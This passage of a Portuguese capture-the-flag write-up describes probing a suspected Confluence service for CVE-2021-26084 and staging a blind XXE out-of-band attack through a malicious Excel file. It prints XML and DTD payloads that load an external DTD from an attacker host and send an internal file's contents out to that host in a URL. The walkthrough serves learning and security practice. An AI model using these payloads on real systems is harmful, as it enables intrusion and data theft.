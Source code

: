 Porém, podemos continuar o write-up hehe.

Pesquisando sobre o que poderia ser essa aplicação rodando na porta 8090 caimos em algumas sugestões:

![Untitled](/assets/planilhasbaby/Untitled%2010.png)

Então procurando por vulnerabilidades nesses serviços chegamos em uma CVE bem recente, 

CVE-2021-26084 que é um SSTI no confluence. Analisando os exploits dessa vulnerabilidade basicamente um usuário não autenticado poderia fazer requisições para o site, passando alguns parâmetros para conseguir RCE. Bom parece que é o que precisamos né?

Vamos verificar primeiro se é realmente um confluence que está rodando no site.

# Exploitation

Para explorar esses requests eu primeiro comecei a usar a payload de blind XXE OOB que havia comentado.

No meu excel malicioso vai a payload xml dizendo para carregar o meu dtd malicioso:

![Untitled](/assets/planilhasbaby/Untitled%2011.png)

```xml
<!DOCTYPE ab [<!ELEMENT ab ANY ><!ENTITY % sp SYSTEM "http://seusite.io/bigous.dtd">%sp;%param1;]>
<ab>&exfil;</ab>
```

E no meu dtd, bigous.dtd:

```xml
<!ENTITY % data SYSTEM "http://documentacao:8090/johnson/static/css/main.css.map">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://seusite.io/?data=%data;'>">%
```
